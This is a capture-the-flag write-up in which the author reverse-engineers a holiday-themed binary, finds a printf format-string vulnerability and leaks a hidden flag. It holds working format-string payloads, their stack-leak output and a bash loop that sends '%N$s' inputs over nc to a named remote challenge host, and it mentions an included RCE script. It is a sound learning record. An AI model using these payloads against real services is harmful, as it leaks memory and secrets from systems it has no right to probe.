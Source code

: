 I started using strings. Multiple flags occured. I would not test all these. I then started Ghidra to dissasemble and I found this function.

```cpp
void main(void) {
  int iVar1;
  time_t tVar2;
  long in_FS_OFFSET;
  time_t local_180;
  char *local_178 [4];
  char *local_158;
  char *local_150;
  char *local_148;
  char *local_140;
  char *local_138;
  char local_128 [280];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_178[0] = "${IStole0xDEADBABE}";
  local_178[1] = "${PleaseDontEatMe!}";
  local_178[2] = "${IWonderWhere0xCAFED00DIs}";
  local_178[3] = "${ILeftAGoodJobAtThe0x0FF1CE}";
  local_158 = "${RunRunRudolph!}";
  local_150 = "${WhyIsThisHere?}";
  local_148 = "${IReallyLoveDJOiler}";
  local_140 = "${ComeOnAndFlyWithSanta!}";
  local_138 = "${CatNipForAll!}";
  tVar2 = time(&local_180);
  srand((uint)tVar2);
  iVar1 = rand();
  printf("Do you know where the Grinch is? ");
  fgets(local_128,0x100,stdin);
  printf("\nMaybe so, I don\'t know, ");
  echo(local_128);
  puts(local_178[iVar1 % 9]);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Seems like it asks for something, just outputs it and disregards it.  Then it uses iVar1 to get a random flag between 0 and 9. Which I think Ghidra wrongly dissasembled the other flags at own unused variables. I'll try to cleanup what I think is happening:

```cpp
void main(void) {
  int rnd;
  long in_FS_OFFSET;
  long initialStackPointer;
  time_t tVar2;
  time_t local_180;
  char input [280];
  
  initialStackPointer = *(long *)(in_FS_OFFSET + 0x28);

  flags[0] = "${IStole0xDEADBABE}";
  flags[1] = "${PleaseDontEatMe!}";
  flags[2] = "${IWonderWhere0xCAFED00DIs}";
  flags[3] = "${ILeftAGoodJobAtThe0x0FF1CE}";
  flags[4] = "${RunRunRudolph!}";
  flags[5] = "${WhyIsThisHere?}";
  flags[6] = "${IReallyLoveDJOiler}";
  flags[7] = "${ComeOnAndFlyWithSanta!}";
  flags[8] = "${CatNipForAll!}";

  tVar2 = time(&local_180);
  srand((uint)tVar2);
  rnd = rand();
  printf("Do you know where the Grinch is? ");
  fgets(input,0x100,stdin);
  printf("\nMaybe so, I don\'t know, ");
  printf(input); // This echo is just printf. Unessesary extras
  puts(flags[rnd % 9]);


  // Some stack smashing check
  if (initialStackPointer != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Doing a whole lot overflow testing but seems to not work. Nothing. Googling "printf exploits" leads me to [OWASP - Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack) which in case leads me to the [Format String Vulnerability](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)! 

> **_INFO:_** I now got a new binary, that echo function is removed. But now the binary is the same as on server! So instead of echo it is just a printf. Still same vulnerability.

Finally a breakthrough. I'll now research how to exploit this. Googling a bit more gave me this valuable [PDF](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)

So this allows me to output data from the current stack. 

```bash
$ python3 -c "print('AAAA' + '%08x.'*20)" | ./grinchisbad

Do you know where the Grinch is? 
Maybe so, I don't know, AAAA00000020.00000000.00000000.011c1719.00000000.00000000.6398f3ab.00400928.0040093c.00400950.0040096c.0040098a.0040099c.004009ae.004009c4.004009de.00000000.41414141.3830252e.252e7838.
${RunRunRudolph!}
```

This shows me that my input is located at the 18th position. I still do not know where that is. Is it in the front of the stack, back? I am clueless at this moment. But it shows 41414141 which is AAAA.

I sound found a shorthand to do this, get the value from the 18th position:

```bash
$ echo 'AAAA.%18$08x' | ./grinchisbad

Do you know where the Grinch is? 
Maybe so, I don't know, AAAA.41414141
${ILeftAGoodJobAtThe0x0FF1CE}
```

After a while I see that I can get more data out from it by doing: `%11$s` as the input. The X above is to output in hex, S is to output as string. So basically I get the content at stack position 1 and ouputs as string. So trying stack position 11 down to 8 it starts segment fault at 7. Why is this?

```bash
$ echo '%11$s' | ./grinchisbad
%11$s
Do you know where the Grinch is? 
Maybe so, I don't know, ${ILeftAGoodJobAtThe0x0FF1CE}
${IStole0xDEADBABE}
```

Looking at the startup wrapper code it seems to have stack 0x0000008 so is 8 the first stack address? This I really dont understand how works. But it matches up that 8 is the first. 

```c
void _start(undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  undefined8 unaff_retaddr;
  undefined auStack_8 [8];
  
  __libc_start_main(main,unaff_retaddr,&stack0x00000008,__libc_csu_init,__libc_csu_fini,param_3,
                    auStack_8);
  do {
                    /* WARNING: Do nothing block with infinite loop */
  } while( true );
}
```

So where is the last? As I started to see my own input at 18 I guess that is the end of it. Stack is between 8 and 18. So 10 addresses for this software I guess? **If anyone care to explain how to figure this out if it is correct and what. Please dm me!**

So wit h that in mind I made a bash script which just ran through 0 to 1000 to see if I got something funny out. 

```bash
for i in `seq 1 1000`;
do
    clear
    echo "i: $i"
    echo  '%'$i'$s' | nc grinchisbad.norwayeast.azurecontainer.io 2424
    sleep .5
done
```

Closer to 80 I begin to see computer details. So I change it to `seq 80 100` and set sleep to be 1 second so I can cancel if I see anything interesting. And behold the hidden flag. Hidden as an enviroment variable way out in 95!

```bash
i: 95
%95$s
Do you know where the Grinch is? 
Maybe so, I don't know, CKRET_FLAG=${Grinch_Stole_My_0xD15C0BABE!}
${ComeOnAndFlyWithSanta!}
```

I try this, and bingo! I would really love to learn how to exploit this a bit more. Understand how it works. 

In this git repo I've included the files:

- libc (Libc version used for compiling)
- grinchisbad (Original not quite the same as server but still exploitable)
- grinchisbad_server (Correct binary)
- remote.py (StateOfLimbo's attempt at RCE which works)
- exploit.sh (My exploit!)

In folder rce-data is things i stole from the server with the rce (source code for grinchisbad and printenv)